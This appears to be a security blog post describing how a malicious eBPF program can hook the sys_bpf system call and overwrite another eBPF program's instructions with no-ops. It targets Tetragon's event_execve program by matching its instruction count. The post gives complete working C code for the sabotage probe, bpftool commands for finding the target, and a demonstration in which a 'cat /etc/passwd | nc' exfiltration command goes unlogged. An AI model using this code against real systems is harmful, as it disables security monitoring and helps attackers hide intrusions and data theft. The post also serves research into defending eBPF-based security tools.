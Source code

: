 ## eBPF: A Case of Self-Sabotage

### Introduction

In recent years, the Extended Berkeley Packet Filter (eBPF) has become an essential tool in the Linux kernel for performance monitoring, networking, and security. However, as with any powerful technology, it can be turned against itself if misused or exploited. This blog post explores a fascinating attack vector where eBPF is used against itself and manipulated to sabotage its own programs by exploiting the `sys_bpf` system call.

### Understanding eBPF and `bpf(2)`

eBPF allows users to run sandboxed programs in kernel space. Though these programs do not have access to all kernel functions, they can perform a variety of tasks ranging from tracing system calls to filtering network packets. eBPF programs are encoded in a bytecode-like language and are loaded into the kernel via the `bpf(2)` system call.

The `bpf(2)` system call provides userspace with an interface to load, manipulate, and manage eBPF programs and maps:

```c
#include <linux/bpf.h>

int bpf(int cmd, union bpf_attr *attr, unsigned int size);
```

 When a user wants to load an eBPF program, they provide a pointer to an array of `union bpf_insn`, which contains the intructions for the eBPF virtual machine to execute.

### The Role of `union bpf_attr`

`union bpf_attr` plays a crucial role in conveying parameters about eBPF programs from userspace to the kernel. This structure is used by the `bpf(2)` system call to pass various attributes and parameters related to eBPF programs and maps. Relevant to this discussion is how `union bpf_attr` is used for:

- **Program Loading**: When loading an eBPF program, the `bpf_attr` uniuon contains information such as the pointer to the array of instructions (`insns`), the number of instructions (`insn_cnt`), and the type of program (`prog_type`).
- **Map Creation and Management**: For map operations, `bpf_attr` holds attributes such as the map type (`map_type`), key size (`key_size`), value size (`value_size`), and the maximum number of entries (`max_entries`).
- **Program Attachment**: When attaching an eBPF program to a specific hook point, `bpf_attr` includes fields such as the target file descriptor (`target_fd`), the attach type (`attach_type`), and the program file descriptor (`prog_fd`).

Here's a simplified version of the `struct bpf_attr` definition:

```c
union bpf_attr {
    struct {
	// anonymous struct used by BPF_PROG_LOAD command
        __u32 prog_type;
        __u32 insn_cnt;
        __u64 insns;
        __u64 license;
        __u32 log_level;
        __u32 log_size;
        __u64 log_buf;
        __u32 kern_version;
        __u32 prog_flags;
    };
    // Other command-specific structs
};
```

This structure allows userspace applications to convey a wide range of parameters and configurations to the kernel when performing eBPF operations. The versatility and flexibility of struct `bpf_attr` are key to the powerful capabilities of eBPF.

### The Attack: Rewriting bpf Programs as No-Op Slides
In this attack, the adversary hooks the `sys_bpf` kernel functio, which is used to service userspace `bpf(2)` system calls, to alter the behavior of eBPF programs. By doing so, they can effectively nullify specific eBPF programs by rewriting their instructions to be effective no-op operations. Here’s a rough outline of how it works:

1. Hook `sys_bpf`: Place a hook on `sys_bpf` via the `sys_enter` tracepoint. Other attachment types are possible, but tracepoints have wider support.

2. Intercept eBPF Programs: When an eBPF program is loaded, our tracepoint intercepts the user mode pointer that contains the `struct bpf_insn` array.

3. Modify User Instructions: The pointer is overwritten via `bpf_probe_write_user` to replace the original eBPF instructions with effective no-op instructions. This is typically done by altering the code field in struct bpf_insn to `BPF_ALU | BPF_MOV | BPF_K`, which represents a move immediate instruction that does nothing.

4. Target Specific Programs: To avoid detection, the attacker can target individual programs by matching on the `insn_cnt` field, which indicates the number of instructions in the eBPF program. By comparing this value, the attacker can selectively modify only certain programs. Loaded programs can be listed via `bpftool prog list`.

### Technical Breakdown

Let’s dive into an example of how this attack could be implemented. Let's target the Isovalent security agent, Tetragon.

#### Finding a Target Program

After starting Tetragon, we see the following bpf program is loaded:

```shell
> bpftool prog list
tracepoint  name event_execve  tag bf21fa49f817a040  gpl
	loaded_at 2024-07-19T11:36:08-0400  uid 0
	xlated 16456B  jited 10176B  memlock 20480B  map_ids 35,8,9,11,31,13,14,32,33,7,12
	btf_id 89
```

`event_execve` seems like a good target; let's target it by finding out how many instructions are in the program:

```shell
> sudo bpftool prog dump xlated tag bf21fa49f817a040 | tail -1

 15874: (95) exit
```
 
The number before the colon (`15874`) is the instruction count. We can now write a bpf program specifically targeting Tetragon `event_execve` programs.

```c
#include "vmlinux.h"
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>
#include "zeroprobe.h"

/* Instruction count of Tetragon event_execve */
#define TARGET_BPF_INSNS 15874

#define BPF_ALU64 0x07
#define BPF_EXIT 0x95

#ifndef BPF_MOV
#define BPF_MOV 0xb0
#endif

#ifndef BPF_K
#define BPF_K 0x00
#endif

char LICENSE[] SEC("license") = "Dual BSD/GPL";

SEC("tp/syscalls/sys_enter_bpf")
int handle_bpf_enter(struct trace_event_raw_sys_enter *ctx)
{
        int cmd = ctx->args[0];
        size_t insns_cnt = 0;

        if (cmd == BPF_PROG_LOAD) {
                /* See how many bpf instructions userspace intended to load */
                union bpf_attr uattr;
                bpf_probe_read_user(&uattr, sizeof(union bpf_attr), (void *)ctx->args[1]);

                struct bpf_insn insn;

                u32 insn_cnt = uattr.insn_cnt;
                // Is this our target program?
                if (insn_cnt != TARGET_BPF_INSNS) {
                        return 0;
                }

                // Iterate over the instructions passed by userspace and convert them to no-ops.
                for (__u32 i = 0; i < TARGET_BPF_INSNS; i++) {
                        bpf_probe_read_user(&insn, sizeof(insn), &((struct bpf_insn *)uattr.insns)[i]);

                        // Overwrite the user bpf_insn with a no-op instruction
                        struct bpf_insn nop_insn = {
                                .code = BPF_ALU64 | BPF_MOV | BPF_K,
                                .dst_reg = BPF_REG_0,
                                .src_reg = BPF_REG_0,
                                .off = 0,
                                .imm = 0
                        };

                        // The last instruction has to be a jmp or exit
                        if (i == insn_cnt-1) {
                                nop_insn.code = BPF_EXIT;
                        }

                        bpf_probe_write_user(&((struct bpf_insn *)uattr.insns)[i], &nop_insn, sizeof(nop_insn));
                }
        }

        return 0;
} 
```

Let's test it out! First, execute some commands without our probe installed. Make sure Tetragon is running first, then start `tetra` to view events in real time:


```shell
> sudo tetra getevents --output compact
```

In another window, run a command that exfiltrates sensitive data:
```shell
> cat /etc/passwd | nc 127.0.0.1 8080
```

Returning back to the `tetra` window, there will be events for the commands just executed:

```shell
> sudo tetra getevents --output compact
🚀 process  /usr/bin/nc 127.0.0.1 8080
🚀 process  /usr/bin/cat /etc/passwd
💥 exit     /usr/bin/cat /etc/passwd 0
💥 exit     /usr/bin/nc 127.0.0.1 8080 1
```

Let's load our eBPF program to intercept Tetragon's execution events and convert them to no-ops.

Stop Tetragon, load the program, restart Tetragon and run the same exfiltration command:

```shell
> cat /etc/passwd | nc 127.0.0.1 8080
```

In the `tetraà window, we only process `exit` events! No execution events are present.

```
> sudo tetra getevents --output compact
💥 exit     /usr/bin/bash  0
💥 exit     /usr/bin/bash  1
```

